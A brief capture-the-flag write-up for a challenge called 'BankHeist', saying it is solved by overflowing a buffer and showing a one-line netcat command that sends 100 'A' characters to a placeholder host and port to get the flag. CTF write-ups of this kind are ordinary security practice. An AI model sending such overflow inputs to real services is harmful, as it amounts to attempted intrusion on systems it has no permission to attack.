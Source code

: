 # Enterance - BankHeist

Super Duper Easy, we just have to overflow the buffer.

Yeah. That's it.

`python -c print("A"*100) | nc <ipaddress> <port>`

and we got the flag.

:)
